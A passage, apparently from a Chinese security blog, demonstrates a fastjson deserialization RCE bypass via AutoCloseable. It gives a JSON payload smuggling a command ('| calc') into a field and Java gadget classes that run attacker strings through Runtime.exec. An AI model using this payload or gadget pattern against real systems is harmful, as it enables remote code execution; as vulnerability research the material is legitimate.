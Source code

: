
提交json触发rce

```java
{
  "@type":"java.lang.AutoCloseable",
  "@type": "org.chabug.fastjson.exploit.ExecCloseable",
  "domain": "y4er.com | calc"
}
```



fastjson在黑名单中还加上了java.lang.Runnable、java.lang.Readable，这个利用场景拿Runnable举个例子

```java
package org.chabug.fastjson.exploit;

import java.io.IOException;

public class ExecRunnable implements AutoCloseable {
    private EvalRunnable eval;

    public EvalRunnable getEval() {
        return eval;
    }

    public void setEval(EvalRunnable eval) {
        this.eval = eval;
    }

    @Override
    public void close() throws Exception {

    }
}

class EvalRunnable implements Runnable {
    private String cmd;

    public String getCmd() {
        System.out.println("EvalRunnable getCmd() "+cmd);
        try {
            Runtime.getRuntime().exec(new String[]{"cmd","/c",cmd});
        } catch (IOException e) {
            e.printStackTrace();
        }
        return cmd;
    }

    public void setCmd(String cmd) {
        this.cmd = cmd;
    }

    @Override
    public void run() {

    }
}
```
